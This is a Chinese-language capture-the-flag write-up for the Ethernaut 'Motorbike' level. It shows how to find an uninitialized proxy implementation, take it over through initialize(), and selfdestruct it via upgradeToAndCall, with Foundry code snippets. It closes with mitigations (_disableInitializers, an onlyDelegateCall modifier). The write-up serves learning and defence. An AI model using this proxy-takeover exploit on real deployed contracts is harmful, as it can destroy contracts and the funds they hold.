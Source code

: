 # Motorbike

## 题目描述

[原题链接](https://ethernaut.openzeppelin.com/level/0x9b261b23cE149422DE75907C6ac0C30cEc4e652A)

`Motorbike`合约使用代理调用`Engine`合约的逻辑，我们使用`Engine`合约中的逻辑时，将函数调用发送到`Motorbike`合约中，`Motorbike`合约再代理调用`Engine`合约。目标是销毁`Engine`合约，使`Motorbike`合约失效（无法代理调用）。

## 运行

根据[Foundry 官方文档](https://getfoundry.sh/)配置好运行环境后，于本项目下执行下列命令：

```sh
$ cd WTF-CTF

$ forge test -C src/Ethernaut/Motorbike -vvvvv
```

## 功能简述

`Engine`合约并没有`selfdestruct`方法，无法销毁合约。但是`Motorbike`合约在初始化`Engine`合约时，使用的是代理调用，并没有直接合约间调用。也就是说，`Engine`合约并没有初始化。我们只要找到实际的`Engine`合约地址，并将它初始化，

```
 engine = address(uint160(uint256(vm.load(motorbike, _IMPLEMENTATION_SLOT))));
```

将`upgrader`变量赋值为我的地址，

```
 Engine(engine).initialize();
```

然后再调用`upgradeToAndCall`函数

```solidity
 Engine(engine).upgradeToAndCall(address(this), abi.encodeWithSignature("done()"));
 
//function done() public {
//        selfdestruct(address(0));
//}
```

让`Engine`合约代理调用`selfdestruct`方法。即可完成目标。



合约在使用代理时，一定要注意`implementation合约`也进行了必要的初始化，以防止额外的事故发生。

比如在`implementation合约`的构造函数中使用`_disableInitializers()`，[链接](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/proxy/utils/Initializable.sol#L145)

或者在`implementation合约`的函数中使用`onlyDelegateCall函数修饰器`，以保证implementation合约中的函数不会被call。

```solidity
address immutable original;

constructor() {
	original = address(this);
}

modifier onlyDelegateCall() {
	require(address(this) != original);
	_;
}
```

